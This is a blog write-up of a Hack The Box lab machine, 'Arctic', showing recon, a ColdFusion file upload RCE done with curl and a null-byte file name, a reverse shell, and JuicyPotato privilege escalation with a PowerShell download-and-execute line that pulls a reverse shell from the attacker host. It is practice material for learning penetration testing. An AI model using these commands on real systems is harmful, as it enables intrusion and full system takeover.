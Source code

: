 ```yaml
---
layout: post
title: HTB-ARCTIC(10.10.10.11)
---
```


**Note: I solved these machines when I started my career. Recently I was checking my old study materials and found this all so I am posting it as it is how I wrote earlier**

**Short brief what I did: I scanned the machine and checked for available ports and found few ports open, later further recon i found some interesting files which was the connecting steps to gain root. Enjoy! Happy Hacking!!**

    nmap -sC -sV -T4 -Pn -p- -A -oA nmap/arctic 10.10.10.11
    
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC

Let’s check in the browser – 10.10.10.11:8500

Found some index files

Going inside administrator got a login page – adobe coldfusion 

So, let’s search for vuln or exploit.

    searchsploit adobe coldfusion

Found many file, so let’s choose directory travasel file – 14641.py

Found a directory where the password of administrator was stored in hash.

So I used crackstation – password – happyday

So immediately logged in with this cred

After logging I was not able to find anything…

So later I googled about adobe coldfusion exploit found 2 exploits…first directory traversal and another is RCE….

So, in the RCE it was instructing to create a msfvenom payload and upload to directory.

Following some writeup…uploaded to directory…but the file was not showing in the browser.

This was the reason [it makes two HTTP requests. First is a POST to FCKEDITOR_DIR, which has a default value of /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm defined earlier in the script. Then it does a GET to /userfiles/file/ to trigger the payload.]

      curl -X POST -F newfile=@shell.jsp   'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/shell.jsp%00'

***
                <script type="text/javascript">
                        window.parent.OnUploadCompleted( 202, "", "shell.jsp", "0" );
                </script>
                                                                                                                                                             
┌──(root💀kali)-[~/HTB/arctic]

***
There are two things I need to set to get this upload to work, and both are set in the MSF exploit. First, I can’t have the filename end in jsp. That will be filtered out. The MSF script uses .txt, so I’ll mimic that by making a copy of my payload named shell.txt. The MSF script also sets the Content-Type on the file to application/x-java-archive.

I’ll update the curl. I can adjust headers inside the form data by adding it inside the -F argument separated by ;:
    curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'

Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.

Here my file got uploaded and as I browsed …got my file…

Opened listener – nc –lvvp 4444  (as per my msfvenom payload)

In the browser clicked the file…and got the connection back…
Got user flag…

##Priv escalation

As I saw SeImpersonate enabled…I quickly ran for juicy potato(Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM)
So here are my required files for juicypotato
1.shell.bat
2.shell.ps1
3.juicypotato.exe

    ls

JuicyPotato.exe shell.bat shell.ps1 

cat shell.bat
    
    powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.4/shell.ps1')
    
shell.ps1 is a file from nishang shell – invokepowershellreversetcp.ps1 – here I will add my ip and port number

Now let’s run juicypotato

Directory of c:\Users\tolis\Downloads

04/02/2022  04:39 ��    <DIR>          .
04/02/2022  04:39 ��    <DIR>          ..
04/02/2022  04:18 ��           347.648 jp.exe
04/02/2022  04:39 ��                94 shell.bat
               2 File(s)        347.742 bytes
               2 Dir(s)   1.433.468.928 bytes free

c:\Users\tolis\Downloads>jp.exe -l 1223 -p shell.bat -t *
jp.exe -l 1223 -p shell.bat -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1223
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

    python -m SimpleHTTPServer 80                                                                                                                
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.11 - - [03/Feb/2022 10:31:55] "GET /shell.ps1 HTTP/1.1" 200 -

    nc -lvvp 1223      
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1223
Ncat: Listening on 0.0.0.0:1223
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49983.
Windows PowerShell running as user ARCTIC$ on ARCTIC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system

***Thank you for reading this article, If you have learned something from this(atleast 10% of this) i will be more happy.

